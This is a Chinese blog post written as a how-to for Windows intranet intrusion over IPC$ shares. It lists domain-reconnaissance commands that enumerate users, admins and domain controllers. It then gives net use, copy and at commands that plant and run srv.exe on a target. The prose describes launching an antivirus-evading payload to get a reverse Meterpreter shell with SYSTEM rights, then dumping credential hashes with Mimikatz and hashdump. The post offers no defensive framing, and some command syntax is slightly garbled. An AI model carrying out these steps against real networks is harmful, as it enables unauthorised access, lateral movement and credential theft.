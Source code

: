 ```yaml
---
layout: post
category: binghe-code-hack
title: 内网IPC$入侵
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: 内网IPC$入侵
lock: need
---
```


# 内网IPC$入侵

## 域操作相关的命令

1.查看域用户

```
net user/domain
```

2.查看有几个域

```
net view/domain
```

3.查看域内的主机

```
net view/domain: XXX
```

4.查看域里面的组

```
net group/domain
```

5.查看域内所有的主机名

```
net group "domain computers" /domain
```

6.查看域管理员

```
net group "domain admins" /domain
```

7.查看域控制器

```
net group "domain controllers" /domain
```

8.查看企业管理组

```
net group "enterprise admins" /domain
```

9.查看时间服务器

```
nettime/domain
```

## IPC$入侵

IPC入侵，即通过使用系统默认启动的共享获得计算机控制权的入侵，在内网中及其常见。 假设现在有一台IPC$主机：127.0.0.25，输入以下命令。

```
#连接127.0.0.25的IPC$共享：
D:>net use \127.0.0.25\ipc$
#复制srv.exe到目标主机
D:>copy srv.exe \127.0.0.25\ipc$ 
#查时间
D:>net time\127.0.0.25
#用at命令在10点50分启动srv.exe(注意这里设置的时间比主机时间快)
D:>at \127.0.0.25 10:50 srv.exe
```

上述命令中的at就是让计算机在指定的时间做指定事情的命令(例如运行程序)

这里把免杀的Payload上传到PAVMSEP131服务器，然后利用at命令启动Payload，反弹回Meterpreter Shell 将木马复制到目标服务器

![img](https://img-blog.csdnimg.cn/20190107122806779.jpg)

查看系统时间

![img](https://img-blog.csdnimg.cn/20190107122829601.jpg)

使用at命令启动木马

![img](https://img-blog.csdnimg.cn/2019010712285057.jpg)

接着返回handler监听，可以看到反弹成功了，我们获得了PAVMSEP131服务器的Meterpreter Shell 反弹成功

![img](https://img-blog.csdnimg.cn/2019010712291273.jpg)

下面看看PAVMSEP131服务器的信息和现在的权限 查看系统信息

![img](https://img-blog.csdnimg.cn/20190107122934648.jpg)

可以看到有SYSTEM权限，说明既可以使用Mimikatz等工具，也可以输入 run post/windows/gather/hashdump来抓Hash 在用Mimikatz抓Hash前要注意一点：如果服务器安装的是64位操作系统，要把Mimikatz的进程迁移到一个64位的程序进程中，才能查看64位操作系统的密码明文，在32位系统中就没有这个限制。

这里使用Mimikatz抓Hash

上传Mimikatz

![img](https://img-blog.csdnimg.cn/20190107123004795.jpg)

抓取Hash

![img](https://img-blog.csdnimg.cn/20190107123104136.jpg)

查看抓到的域用户的权限

![img](https://img-blog.csdnimg.cn/20190107123127758.jpg)


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)